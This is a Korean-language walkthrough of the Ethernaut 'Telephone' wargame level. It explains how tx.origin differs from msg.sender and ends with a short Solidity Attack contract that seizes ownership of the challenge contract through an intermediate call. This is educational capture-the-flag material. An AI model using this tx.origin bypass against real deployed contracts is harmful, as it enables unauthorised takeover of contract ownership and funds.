


## 문제
### 지문
Claim ownership of the contract below to complete this level.
Things that might help
See the "?" page above, section "Beyond the console"
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
## 배경지식
<hr />
솔리디티에는 EVM이 자동으로 제공하는 내장 전역 변수들이 있다. 이 문제에서는 `msg.sender`와 `tx.origin`을 비교한다.
`msg.sender`는 현재 함수를 직접 호출한 주소다. EOA가 컨트랙트 A를 호출하면 A 입장에서 `msg.sender`는 EOA이고, 컨트랙트 A가 컨트랙트 B를 호출하면 B 입장에서 `msg.sender`는 A가 된다.
반면 `tx.origin`은 트랜잭션을 최초로 발생시킨 EOA를 가리킨다. 중간에 컨트랙트 호출이 몇 번 이어져도 한 트랜잭션 안에서 `tx.origin`은 처음 서명한 계정으로 유지된다.
호출 흐름을 아래처럼 만들면 두 값이 갈라진다.
```plain text
EOA -> Attack.attack() -> Telephone.changeOwner()
```
이때 `Telephone` 입장에서 `tx.origin`은 EOA이고, `msg.sender`는 `Attack` 컨트랙트다. 이 순간 두 값이 달라진다.
<hr />
`tx.origin`은 트랜잭션의 최초 발신자만 알려줄 뿐, 현재 함수 호출을 누가 직접 수행했는지는 알려주지 않는다. 그래서 권한 체크에 `tx.origin`을 섞으면 중간 컨트랙트를 끼워 넣는 호출 흐름에 취약해진다.
소유자 변경처럼 권한이 필요한 로직은 보통 `msg.sender`를 기준으로 판단해야 한다. 현재 호출자를 기준으로 해야 어떤 컨트랙트가 실제로 함수를 호출했는지 통제할 수 있기 때문이다.
## 문제 코드 분석
<hr />
먼저 초기 `owner`를 보자.
```solidity
address public owner;

constructor() {
    owner = msg.sender;
}
```
배포 시점의 `msg.sender`가 `owner`로 저장된다. Ethernaut 인스턴스에서는 레벨 컨트랙트가 새 인스턴스를 만들어주므로, 처음부터 플레이어가 `owner`라고 볼 수 없다.
목표는 이 `owner` 값을 플레이어 주소로 바꾸는 것이다.
<hr />
이제 `changeOwner` 조건을 보자.
```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```
`changeOwner`는 누구나 호출할 수 있는 `public` 함수다. 별도의 `onlyOwner` 같은 제한도 없다.
문제는 조건이 `tx.origin != msg.sender`라는 점이다. 플레이어 EOA가 직접 `changeOwner`를 호출하면 `tx.origin`과 `msg.sender`가 둘 다 플레이어 주소가 되므로 조건을 통과하지 못한다.
반대로 플레이어가 공격 컨트랙트를 호출하고, 그 공격 컨트랙트가 다시 `Telephone.changeOwner`를 호출하면 상황이 달라진다. `Telephone` 안에서는 `tx.origin`이 플레이어 EOA이고 `msg.sender`가 공격 컨트랙트 주소가 된다. 그래서 조건이 참이 되고, `owner`를 원하는 주소로 바꿀 수 있다.
## 풀이
중간에 `Attack` 컨트랙트를 하나 두고, 그 안에서 `Telephone.changeOwner`를 호출하면 된다.
`changeOwner`의 인자에는 새 `owner`가 될 플레이어 주소를 넣는다. 그러면 `Telephone` 입장에서는 직접 호출자가 `Attack` 컨트랙트가 되므로 `tx.origin != msg.sender` 조건을 통과한다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract Attack {
    Telephone telephone;

    constructor(address addr) {
        telephone = Telephone(addr);
    }

    function attack() public {
        telephone.changeOwner(0x285ac9F8881D867556fCf6C16F26e3629F86C971);
    }
}
```


